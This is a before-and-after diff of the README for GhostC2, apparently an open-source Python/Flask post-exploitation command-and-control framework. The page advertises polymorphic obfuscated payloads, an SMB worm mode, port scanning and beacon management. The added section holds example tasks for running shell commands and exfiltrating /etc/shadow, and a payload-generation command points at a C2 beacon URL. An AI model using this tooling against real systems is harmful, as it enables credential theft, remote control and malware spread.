

Before and after one commit to wolfwashere/GhostC2, a Markdown page: README.md, 2 parts joined by grey strips. Shown: that part at 83% size. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -1,5 +1,6 @@
 # 👻 GhostC2
-GhostC2 is a lightweight post-exploitation command and control framework built in Python and Flask. It supports real-time communication over WebSockets, polymorphic payload generation, encrypted tasking, and optional `.exe` builds for Windows delivery. Designed for flexibility and stealth, GhostC2 gives operators a clean dashboard for managing beacons.
+
+GhostC2 is a modular, encrypted, post-exploitation command-and-control (C2) framework built with Python and Flask. It features real-time WebSocket communication, polymorphic payload generation, structured JSON tasking, operator authentication, optional `.exe` packaging, and a fully interactive file browser UI.
 
 Check out the wiki for an Operator Quickstart Guide.
 
@@ -11,18 +12,19 @@ Check out the wiki for an Operator Quickstart Guide.
 - 🌐 Real-time bidirectional WebSocket tasking
 - 🧠 Operator web console with live terminal view
 - 🧼 Polymorphic payload generator with randomized variables
+- 🗞️ Structured JSON tasking for all agent features (stealth & obfuscation compatible)
 - 🖥️ Optional `.exe` compilation with PyInstaller
 - 🛡️ Flask-Login based access control
 - 🗞️ SQLite-based task/result logging
 - 🔍 Network Port Scanning (`scan <subnet> ports:<port1>,<port2>...`)
-- 📂 Interactive File Browser UI (NEW)
+- 📂 Interactive File Browser UI (NEW, works with obfuscated payloads)
 - 🧬 Self-Propagating Worm Mode via SMB
 
 ---
 
 > **NOTE:**
-> The new file browser feature currently requires payloads generated *without* command obfuscation enabled.
-> Structured/obfuscated custom task support is coming soon!
+> All dashboard actions (browse, getfile, scan, shell, etc.) now use JSON tasking by default.
+> Payloads support full obfuscation and polymorphism with every feature.
 
 ---
 
@@ -106,6 +108,37 @@ python tools/generate_payload.py   --c2 http://10.10.10.10:8080/beacon   --resul
 
 ---
 
+## 📝 Example JSON Tasks
+
+When tasks are queued (by the dashboard, or via API), they’re sent as JSON to the agent:
+
+```json
+{
+  "action": "browse",
+  "path": "/home/user/"
+}
+```
+
+Shell command:
+```json
+{
+  "action": "shell",
+  "command": "whoami"
+}
+```
+
+File exfil:
+```json
+{
+  "action": "getfile",
+  "path": "/etc/shadow"
+}
+```
+
+> The dashboard generates these automatically when you click actions or send tasks.
+
+---
+
 ## 🖥️ Live Console Terminal
 
 GhostC2 includes a web-based console for interacting with beacons in real-time.
````
Also changed, not shown: other parts of README.md (+30 -32 lines).
